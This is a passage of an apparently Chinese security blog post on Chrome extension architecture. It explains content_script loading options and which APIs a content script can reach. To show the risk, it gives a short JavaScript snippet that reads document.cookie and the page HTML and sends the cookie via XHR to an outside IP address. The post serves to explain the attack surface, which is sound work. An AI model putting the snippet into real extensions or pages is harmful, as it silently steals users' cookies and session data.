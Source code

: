 而content_script js 主要的特点在于他与页面同时加载，可以访问dom，并且也能调用extension、runtime等部分api，但并不多，主要用于和页面的交互。

`content_script js`可以通过设置`run_at`来设置相对应脚本加载的时机。
- document_idle 为默认值，一般来说会在页面dom加载完成之后，window.onload事件触发之前
- document_start 为css加载之后，构造页面dom之前
- document_end 则为dom完成之后，图片等资源加载之前

并且，`content_script js`还允许通过设置`all_frames`来使得`content_script js`作用于页面内的所有`frame`，这个配置默认为关闭，因为这本身是个不安全的配置，这个问题会在后面提到。

在`content_script js`中可以直接访问以下Chrome Ext api：

- i18n
- storage
- runtime:
    - connect
    - getManifest
    - getURL
    - id
    - onConnect
    - onMessage
    - sendMessage

在了解完基本的配置后，我们就来看看`content_script js`可以对页面造成什么样的安全问题。

### 安全问题

对于`content_script js`来说，首当其中的一个问题就是，插件可以获取页面的dom，换言之，插件可以操作页面内的所有dom，其中就包括非httponly的cookie.

这里我们简单把`content_script js`中写入下面的代码

```
console.log(document.cookie);
console.log(document.documentElement.outerHTML);
var xhr = new XMLHttpRequest();
xhr.open("get", "http://212.129.137.248?a="+document.cookie, false);
xhr.send()
```

然后加载插件之后刷新页面
![image.png-26.5kB][1]

可以看到成功获取到了页面内dom的信息，并且如果我们通过xhr跨域传出消息之后，我们在后台也成功收到了这个请求。
![image.png-18.4kB][2]

这也就意味着，如果插件作者在插件中恶意修改dom，甚至获取dom值传出都可以通过浏览器使用者无感的方式进行。

在整个浏览器的插件体系内，各个层面都存在着这个问题，其中`content_script js`、`injected script js`和`devtools js`都可以直接访问操作dom，而popup js和background js都可以通过chrome.tabs.executeScript来动态执行js，同样可以执行js修改dom。

除了前面的问题以外，事实上`content_script js`能访问到的chrome api非常之少，也涉及不到什么安全性，这里暂且不提。

## popup/background js

popup js和backround js两个主要的区别在于加载的时机，由于他们不能访问dom，所以这两部分的js在浏览器中主要依靠事件驱动。


  [1]: http://static.zybuluo.com/LoRexxar/gog064w9i74jp8spovjx6b5k/image.png
  [2]: http://static.zybuluo.com/LoRexxar/k5n0dl5wz572799jobw1rlp4/image.png
  [3]: http://static.zybuluo.com/LoRexxar/gs6pjwng6ef4e5pm3f8ddf7w/image.png
  [4]: http://static.zybuluo.com/LoRexxar/d45lnadt8bj2vl5qn9grewd8/image.png
  [5]: http://static.zybuluo.com/LoRexxar/lnx91aip2ys4ftvm0ph2v30e/image.png
  [6]: http://static.zybuluo.com/LoRexxar/mmrr812o6yihnwim2alk455s/image.png
  [7]: http://static.zybuluo.com/LoRexxar/3rj51mha9diw4ec1fgfn68up/image.png
  [8]: http://static.zybuluo.com/LoRexxar/o0pw344r18izbm1nbndu954m/image.png
  [9]: http://static.zybuluo.com/LoRexxar/p7dnp9i1kf3avv6b61ti265d/image.png
  [10]: http://static.zybuluo.com/LoRexxar/5nlpjgjxuyfdnyfhklta9xn5/image.png
  [11]: http://static.zybuluo.com/LoRexxar/ps4ruuic7p6vgfyibbyiig7w/image.png
  [12]: http://static.zybuluo.com/LoRexxar/vf4ze36narapdqvydmgwash9/image.png
  [13]: http://static.zybuluo.com/LoRexxar/p70ryaplmmydm41qcc2l4vk2/image.png
  [14]: http://static.zybuluo.com/LoRexxar/i14bfplp9aqntw1q4wh89ruv/image.png
  [15]: http://static.zybuluo.com/LoRexxar/pdlwo8868euvuvjfrlgozbzw/image.png
  [16]: http://static.zybuluo.com/LoRexxar/0pookmiu4lw9kfyp0yshrwwv/image.png
  [17]: http://static.zybuluo.com/LoRexxar/7xds0r9fv9s7oztlt56q29bj/image.png
  [18]: http://static.zybuluo.com/LoRexxar/3ipanb6l36amvsggbj6hunjm/image.png
  [19]: http://static.zybuluo.com/LoRexxar/tz86cdzv9pif44szwraexpk8/image.png
  [20]: http://static.zybuluo.com/LoRexxar/5kufzdrc3us38lo18r4l3l96/image.png
  [21]: http://static.zybuluo.com/LoRexxar/bcepsvyrasq5nsq7m5mzq7re/image.png